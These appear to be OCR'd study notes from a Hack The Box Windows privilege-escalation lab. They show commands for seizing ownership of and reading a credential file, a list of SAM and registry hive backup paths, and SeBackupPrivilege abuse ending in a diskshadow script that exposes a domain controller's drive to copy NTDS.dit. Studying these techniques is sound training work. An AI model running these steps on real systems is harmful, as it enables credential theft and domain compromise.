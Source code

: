         - takeown /f 'C:\Department Shares\Private\IT\cred.txt’
    - Confirming Ownership Changed
        - Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
    - Modifying the File ACL
        - cat 'C:\Department Shares\Private\IT\cred.txt’
        - icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
    - Reading the File
        - cat 'C:\Department Shares\Private\IT\cred.txt’
    - When to Use?
        
        ```xml
        c:\inetpub\wwwwroot\web.config
        %WINDIR%\repair\sam
        %WINDIR%\repair\system
        %WINDIR%\repair\software, %WINDIR%\repair\security
        %WINDIR%\system32\config\SecEvent.Evt
        %WINDIR%\system32\config\default.sav
        %WINDIR%\system32\config\security.sav
        %WINDIR%\system32\config\software.sav
        %WINDIR%\system32\config\system.sav
        ```
        
- Backup Operators
    - whoami /groups
    - SeBackup and SeRestore privileges
    - https://github.com/giuliano108/SeBackupPrivilege
    - Import-Module .\SeBackupPrivilegeCmdLets.dll
    - Import-Module .\SeBackupPrivilegeCmdLets.dll
    - Verifying SeBackupPrivilege is Enabled
        - Get-SeBackupPrivilege
        - Set-SeBackupPrivilege
    - Copying a Protected File
        - Copy-FileSeBackupPrivilege 'C:\Confidential\2021 Contract.txt' .\Contract.txt
    - Attacking a Domain Controller - Copying NTDS.dit
        - Windows diskshadow utility to create a shadow copy of the C drive and expose it as E drive
        
        ```xml
        PS C:\htb> diskshadow.exe
        
        Microsoft DiskShadow version 1.0
        Copyright (C) 2013 Microsoft Corporation
        On computer:  DC,  10/14/2020 12:57:52 AM
        
        DISKSHADOW> set verbose on
        DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
        DISKSHADOW> set context clientaccessible
        DISKSHADOW> set context persistent
        DISKSHADOW> begin backup
        DISKSHADOW> add volume C: alias cdrive
        DISKSHADOW> create
        DISKSHADOW> expose %cdrive% E:
        DISKSHADOW> end backup
        DISKSHADOW> exit
        ```
        